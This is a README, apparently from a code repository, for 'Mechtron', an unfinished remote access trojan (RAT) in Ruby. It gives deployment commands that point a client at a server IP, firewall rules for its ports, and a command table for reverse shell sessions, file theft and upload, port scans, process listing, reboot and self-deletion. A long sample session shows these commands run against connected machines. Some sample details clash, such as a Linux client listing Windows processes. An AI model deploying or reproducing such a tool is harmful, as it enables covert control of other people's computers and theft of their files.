 # Mechtron
This is an unfinished project.

Mechtron is a RAT that gives the server remote access to the client machine. You can execute remote commands on the client machine. The server also has the ability to upload and download files from the client machine. Besides these commands, there are a few sugar commands. Mechtron can handle multiple clients at one time. Mechtron is used to form a network of computers that allows the server to operate on them. You can only work with one computer at a time.

The client software is distributed using the Mechtron application, but by supplying an argument with the server's IP address.

```
sudo ./mechtron -c 127.0.0.1
```

The server is ran using one argument.
```
./mechtron -s
```

Mechtron runs on ports 6666/tcp and 6667/tcp. It can handle multiple clients, but one session at a time. Meaning you can have one reverse shell instance at a time. I plan on publishing a debian package, but for now, you'll have to deal with the source folders.

Make sure to open ports 6666/tcp and 6667/tcp on the computer that you're running the server on
```
sudo ufw allow 6666:6667/tcp
```

## Useful Tips
- You can aim a Mechtron client at a Mechtron server that doesn't exist yet.
- A torified shell will interfere with Mechtron.
- You can use a client's ID anywhere you can use an IP address and vice versa.
- A client will have a new ID number assigned to it when it reconnects.
- The ID number is to the left of the IP address.
- if you follow the client script name with '&' it will run it in the background.

## Commands
<table>
    <tr>
        <th>Commands</th>
        <th>Description</th>
    </tr>
    <tr>
        <td>clients</td>
        <td>Get a list of the connected machines</td>
    </tr>
    <tr>
        <td nowrap>session IP</td>
        <td>Use session with an IP address to start a reverse shell session. Enter "exit" to stop</td>
    </tr>
    <tr>
        <td nowrap>get IP FILE FORMAT</td>
        <td>Use get with an IP address followed by a file path and a format to download files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>put IP FILE FORMAT</td>
        <td>Use put with an IP address followed by a file path and a format to upload files. The format options are binary and text.</td>
    </tr>
    <tr>
        <td nowrap>scan IP</td>
        <td>Scan all TCP ports on the client machine</td>
    </tr>
    <tr>
        <td nowrap>latency IP</td>
        <td>Get the speed of the connection for a client machine in milliseconds.</td>
    </tr>
    <tr>
        <td nowrap>programs IP</td>
        <td>Get a list of the running programs on a client machine.</td>
    </tr>
    <tr>
        <td nowrap>uptime IP</td>
        <td>Returns how long the client has been connected in minutes.</td>
    </tr>
    <tr>
        <td nowrap>reboot IP</td>
        <td>Reboots the client machine.</td>
    </tr>
    <tr>
        <td nowrap>clear</td>
        <td>Clears the screen.</td>
    </tr>
    <tr>
        <td nowrap>delete IP (Linux only)</td>
        <td>Delete the client software off of the client.</td>
    </tr>
    <tr>
        <td>help</td>
        <td>shows the HELP menu</td>
    </tr>
    <tr>
        <td>exit</td>
        <td>Closes Mechtron application</td>
    </tr>
</table>

## Instructions
  <table>
    <tr>
      <th>Program Parameters</th>
      <th>Description</th>
    </tr>
    <tr>
      <td>-s</td>
      <td>Server mode</td>
    </tr>
    <tr>
      <td>-c IP</td>
      <td>Client mode. This parameter requires an IP address</td>
    </tr>
  </table>

## Example Usage

### Server
```
sudo ufw allow 6666:6667/tcp
Rule added
Rule added (v6)
chmod +x mechtron.rb
./mechtron -s
starting server on port 6666
version 1
Useful tip: You can use the client ID in place of the IP!
  __  __ ______ _____ _    _ _______ _____   ____  _   _ 
 |  \/  |  ____/ ____| |  | |__   __|  __ \ / __ \| \ | |
 | \  / | |__ | |    | |__| |  | |  | |__) | |  | |  \| |
 | |\/| |  __|| |    |  __  |  | |  |  _  /| |  | | . ` |
 | |  | | |___| |____| |  | |  | |  | | \ \| |__| | |\  |
 |_|  |_|______\_____|_|  |_|  |_|  |_|  \_\\____/|_| \_|
By Evil Threads

[0] 127.0.0.1 chrisbasinger Linux joined
session 0
session started with [0] 127.0.0.1 chrisbasinger Linux
$ whoami
chrisbasinger
$ which ruby
/bin/ruby
$ exit
closing session
get 0 /home/chrisbasinger/script.sh text
download finished
get 0 /home/chrisbasinger/picture.jpg binary
download finished
put 0 /home/chrisbasinger/file.txt text
upload finished
put 0 /home/chrisbasinger/spreadsheet.xlsx binary
upload finished
scan 0
111 open
631 open
2049 open
4444 open
scan finished
latency 0
0.00022492 milliseconds
clients
+------------------------------------------+
|                 CLIENTS                  |
+----+------------+----------------+-------+
| ID | IP ADDRESS | NAME           | OS    |
+----+------------+----------------+-------+
| 0  | 127.0.0.1  | gazelle-laptop | Linux |
+----+------------+----------------+-------+
[1] 192.168.1.219 chris Linux joined
programs 1

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          8 K
System                           4 Services                   0         32 K
Registry                        92 Services                   0     20,628 K
smss.exe                       324 Services                   0        268 K
csrss.exe                      424 Services                   0      2,268 K
wininit.exe                    500 Services                   0        660 K
csrss.exe                      512 Console                    1      2,592 K
winlogon.exe                   596 Console                    1      3,228 K
services.exe                   616 Services                   0      6,212 K

uptime 0
1.7 minutes
exit
exiting the server..

Process finished with exit code 0

```

### Client
```
chmod +x rat.rb
sudo ./mechtron -c 127.0.0.1
```

## License
```
Copyright 2023 Chris Basinger

Licensed under the Apache License, Version 2.0(the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

```
